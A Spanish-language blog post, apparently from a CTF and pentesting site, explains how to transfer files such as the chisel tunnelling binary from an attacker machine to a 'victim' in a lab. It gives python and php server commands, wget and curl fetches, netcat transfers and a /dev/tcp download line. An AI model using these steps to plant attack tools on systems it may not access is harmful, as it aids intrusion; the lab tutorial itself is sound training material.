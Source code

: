```yaml
---
title       : "Creación de servidor local"
excerpt:      "Realizaremos una pequeña explicación del método que utilizamos para transferir ficheros entre la máquina atacante y la víctima."
header:
  teaser: /assets/images/linux/prev.png
  teaser_home_page: true
  icon: /assets/images/TUX.png
classes		: wide
categories:
  - Sistemas
tags:  
  - Python
  - PHP
  - Howto
---
```


![](/assets/images/linux/prev.png){: .align-center}

Realizaremos una pequeña explicación del método que utilizamos para transferir ficheros entre 2 máquinas.

> Para los ejemplos utilizaremos chisel como el binario que transferimos y el puerto 80.

Esto es muy útil en varios escenarios, pero un ejemplo típico es cuando queremos subir un binario a la máquina víctima. En primer lugar lo que necesitamos es colocarnos en el directorio donde tenemos los ficheros que queremos transferir. Una vez ahí, existen varias formas de crear un servidor, pero vamos a comentar las más usadas:

1. Python: `python3 -m http.server 80` 
2. PHP: `php -S localhost:80`

> Para el ejemplo hemos utilizado el puerto 80, ya que así no sería necesario especificar el puerto para recoger el fichero. Pero si está siendo usado, o por cualquier otro motivo no se puede utilizar, se introduce el que deseemos.

Una vez hemos creado este servidor, tendremos nuestros contenidos accesibles introduciendo nuestra IP local en la máquina víctima. Para recoger esos contenidos podemos utilizar también varias formas:

1. wget: `wget 192.168.1.150/chisel`
2. curl: `curl 192.168.1.150/chisel -o chisel`

Aquí adjunto una captura real realizando la máquina propia [Principle](https://kaianperez.github.io/principle/):

![](/assets/images/server/copychisel.png){: .align-center}

Bien, estas formas son las más recomendables, ya que son rápidas y versátiles, no darán problemas.


## EXTRA

<font color='red'>¿Y qué podemos hacer en caso de que no tengamos la posibilidad de usar esos binarios?</font>

Si bien es algo muy raro, podría ocurrir. En ese caso podemos usar nc. Para este ejemplo vamos a usar el puerto 4444:

Nos ponemos en escucha con el fichero a transferir: `nc -nlvp 4444 < chisel`

Y lo recogemos con nc en la máquina víctima: `nc 192.168.1.150 4444 > chisel` 

![](/assets/images/server/nc.png){: .align-center}


<font color='red'>Estupendo, pero no tengo nc en la máquina víctima...</font>

En ese caso, servimos el fichero igualmente con nc y lo vamos a recoger de esta forma:

`cat > chisel < /dev/tcp/192.168.1.150/4444`

Pues con esto ya estaría, hemos tocado la mayoría de casos que se nos van a dar y cómo solventarlos. Basta indicar que esto se puede realizar en cualquier dirección y combinar la forma de crear el servidor con la de recoger el fichero. Espero os haya servido.